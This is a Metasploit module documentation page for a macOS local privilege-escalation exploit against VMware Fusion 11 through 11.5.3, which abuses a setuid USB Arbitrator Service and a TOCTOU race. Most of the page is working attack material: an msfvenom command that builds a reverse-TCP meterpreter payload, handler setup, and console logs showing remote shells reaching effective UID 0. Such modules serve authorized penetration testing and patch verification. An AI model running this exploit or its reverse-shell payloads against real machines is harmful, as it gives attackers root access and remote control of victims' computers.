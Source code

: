 ## Vulnerable Application

This exploits an improper use of setuid binaries within VMware Fusion 11 - 11.5.2. The `Open VMware USB Arbitrator Service` can be
launched outide of its standard path which allows loading of an attacker controlled binary. By creating a payload in the user home
directory in a specific folder, and creating a hard link to the `Open VMware USB Arbitrator Service`, we're able to launch it
temporarily to start our payload with an effective UID of 0.

Additional description can be found in
@mirchr's [exploit](https://raw.githubusercontent.com/mirchr/security-research/master/vulnerabilities/CVE-2020-3950.sh).

It was found that VMware Fusion 11.5.3, which patched the previous vulnerability utilized an incomplete patch.  The patch checked
for a correct code signature on the `VMware USB Arbitrator Service` at start, but not at launch, thus creating a TOCTOU race
condition.  The discoverer @jeffball55 demoed the exploit working in 20 attempts.  This module has been successful between
5 and 25 attempts.

VMware Fusion 11.5.1 is available from [VMware](https://download3.vmware.com/software/fusion/file/VMware-Fusion-11.5.1-15018442.dmg).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a shell
  4. Do: ```use exploit/osx/local/vmware_fusion_lpe```
  5. Do: ```set session #```
  6. Do: ```run```
  7. You should get a `euid=0` shell.

## Options

### MAXATTEMPTS

The maximum attempts to start `VMware USB Arbitrator Service`, attempting to win the race against 11.5.3.  Default is `50`.

### Session

Which session to use this exploit on.

## Scenarios

### VMware Fusion 11.5.1 (15018442) on macOS 10.15.3 (19D76)

```
/msfvenom --payload python/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=8888 -b "\x00" -o /var/www/html/meterp_8888.py
```

```
[*] Processing fusion.rb for ERB directives.
resource (fusion.rb)> setg verbose true
verbose => true
resource (fusion.rb)> use exploit/multi/handler
resource (fusion.rb)> set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
resource (fusion.rb)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (fusion.rb)> set lport 8888
lport => 8888
resource (fusion.rb)> exploit
[+] Vmware Fusion 11.5.1 is exploitable
[*] The target appears to be vulnerable.
[*] Started reverse TCP handler on 1.1.1.1:8888 
[*] Sending stage (53755 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49265) at 2020-03-23 18:07:57 -0400

meterpreter > getuid
Server username: h00die
meterpreter > sysinfo
Computer        : h00dies-MBP.doman
OS              : Darwin 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64
Architecture    : x64
System Language : en_US
Meterpreter     : python/osx
meterpreter > background
[*] Backgrounding session 1...
```

```
resource (fusion.rb)> use exploit/osx/local/vmware_fusion_lpe
resource (fusion.rb)> set session 1
session => 1
resource (fusion.rb)> exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] Vmware Fusion 11.5.1 is exploitable
[*] Using pre-11.5.3 exploit
[*] Uploading Payload: /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[*] Creating folder (/Users/h00die/2KLH/s0m/wX8XO/) and link
[*] Starting USB Arbitrator Service (5 sec pause)
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49269) at 2020-03-23 18:08:14 -0400
[+] Deleted /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[*] Killing service
[*] Deleting /Users/h00die/2KLH

meterpreter > getuid
Server username: h00die @ h00dies-MBP.domain (uid=501, gid=20, euid=0, egid=20)
meterpreter > sysinfo
Computer     : h00dies-MBP.domain
OS           : macOS Unknown (macOS 10.15.3)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx

```

### VMWare Fusion 11.5.3 on macOS 10.15.3

```
```

```
resource (fusion.rb)> setg verbose true
verbose => true
resource (fusion.rb)> use exploit/multi/handler
resource (fusion.rb)> set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
resource (fusion.rb)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (fusion.rb)> set lport 8888
lport => 8888
resource (fusion.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:8888 
[*] Sending stage (53755 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49198) at 2020-03-28 07:37:16 -0400

meterpreter > getuid
Server username: h00die
meterpreter > sysinfo
Computer        : h00dies-MBP.ragedomain
OS              : Darwin 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64
Architecture    : x64
System Language : en_US
Meterpreter     : python/osx
meterpreter > background
[*] Backgrounding session 1...
```
```
resource (fusion.rb)> use exploit/osx/local/vmware_fusion_lpe
resource (fusion.rb)> set session 1
session => 1
resource (fusion.rb)> exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] Vmware Fusion 11.5.3 is exploitable
[*] Using 11.5.3 exploit
[*] Uploading Payload to /Users/h00die/Contents/Library/services/SAGgama
[*] Uploading race condition executable.
[*] Writing '/Users/h00die/Contents/Library/services/TVOK7bDP' (342 bytes) ...
[*] Creating folder (/Users/h00die/weGd/JvR/VoYDt/) and link
[*] Writing '/Users/h00die/Contents/Library/services/alYnwGRyo' (178 bytes) ...
[*] Launching Exploit /Users/h00die/Contents/Library/services/alYnwGRyo
[*] attempt 1
[*] Exploit Finished, killing 
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49213) at 2020-03-28 07:37:28 -0400
[-] Unable to delete /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[+] Deleted /Users/h00die/Contents/Library/services/TVOK7bDP
[-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_fs_delete_dir: Operation failed: Python exception: OSError
[*] Exploit completed, but no session was created.
msf5 exploit(osx/local/vmware_fusion_lpe) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: h00die @ h00dies-MBP.ragedomain (uid=501, gid=20, euid=0, egid=20)
meterpreter > sysinfo
Computer     : h00dies-MBP.ragedomain
OS           : macOS Unknown (macOS 10.15.3)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
meterpreter > 
```
